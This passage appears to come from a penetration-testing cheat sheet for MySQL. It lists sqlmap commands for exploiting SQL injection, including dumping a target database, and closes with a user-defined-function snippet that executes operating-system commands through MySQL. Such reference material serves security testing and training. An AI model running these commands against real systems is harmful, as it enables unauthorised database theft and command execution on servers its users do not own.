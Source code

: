 *   **Run SQLMap:** Exploiting SQL Injection vulnerabilities in web applications connected to MySQL.

    ```bash
    sqlmap -u "http://<target_ip>/vulnerable_page.php?id=1" --dbms=mysql --dump
    ```
*   **Run SQLMap against a single target URL:**

    ```bash
    sqlmap -u "http[:]//www.target.com/vuln.php?id=1"
    ```
*   **Send data in a POST request:** (--data implies POST request)

    ```bash
    sqlmap -u "http[:]//www.target.com/vuln.php?id=1" --data="[id=1]"
    ```
*   **Change the parameter delimiter:** (& is the default)

    ```bash
    python sqlmap.py -u "http[:]//www.target.com/vuln.php?id=1" --data="[query=foobar;id=1]" --param-del="[;]"
    ```
*   **Select a random User-Agent from `./txt/user-agents.txt` and use it:**

    ```bash
    sqlmap -u "http[:]//www.target.com/vuln.php?id=1" --random-agent
    ```
*   **Provide user credentials for HTTP protocol authentication:**

    ```bash
    python sqlmap.py -u "http[:]//www.target.com/vuln.php?id=1" --auth-type [Basic] --auth-cred "[testuser:testpass]"
    ```

### Other Techniques

#### \[\[MySQL Workbench]]

MySQL Workbench is a visual tool for database architects, developers, and DBAs. It provides a graphical interface to design, model, and manage MySQL databases.

Connect to MySQL Server

* Open MySQL Workbench.
* Click on `Database > Connect to Database`.
* Enter the connection details (hostname, port, username, password).
* Click `OK` to connect.

#### Execute OS Commands

*   MySQL does not have a built-in feature equivalent to `xp_cmdshell`. However, you can execute OS commands indirectly through user-defined functions (UDFs) or by using external scripting languages like Python or PHP that interact with the MySQL server.

    ```sql
    CREATE FUNCTION sys_exec RETURNS integer SONAME 'lib_mysqludf_sys.so';
    SELECT sys_exec('whoami');
    ```
